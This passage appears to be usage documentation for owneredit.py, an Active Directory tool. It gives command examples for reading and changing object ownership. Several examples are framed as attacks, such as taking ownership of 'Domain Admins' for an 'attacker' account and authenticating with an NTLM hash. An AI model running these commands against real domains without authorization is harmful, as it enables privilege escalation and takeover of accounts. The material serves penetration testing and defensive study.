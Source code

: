 ```
  -no-pass              Don't ask for password
  -k                    Use Kerberos authentication
  -aesKey               AES key for Kerberos authentication
  -dc-ip                Domain controller IP address
```

## Usage Examples

### Reading Object Ownership
```bash
# Read ownership of user account
python3 owneredit.py domain.com/user:password -action read -target victim_user

# Read ownership using SID
python3 owneredit.py domain.com/user:password -action read -target-sid S-1-5-21-domain-1001

# Read ownership using Distinguished Name
python3 owneredit.py domain.com/user:password -action read -target-dn "CN=VictimUser,CN=Users,DC=domain,DC=com"
```

### Modifying Object Ownership
```bash
# Change ownership of user account
python3 owneredit.py domain.com/attacker:password -action write -target victim_user -new-owner attacker

# Take ownership using SID
python3 owneredit.py domain.com/user:password -action write -target-sid S-1-5-21-domain-1001 -new-owner-sid S-1-5-21-domain-1000

# Take ownership of computer object
python3 owneredit.py domain.com/user:password -action write -target "VICTIM-PC$" -new-owner compromised_user
```

### Advanced Usage
```bash
# Use LDAPS for encrypted connection
python3 owneredit.py domain.com/user:password -use-ldaps -action write -target victim_user -new-owner attacker

# Take ownership of privileged group
python3 owneredit.py domain.com/user:password -action write -target "Domain Admins" -new-owner attacker

# Use hash authentication
python3 owneredit.py domain.com/user -hashes :ntlmhash -action write -target victim_user -new-owner attacker
```
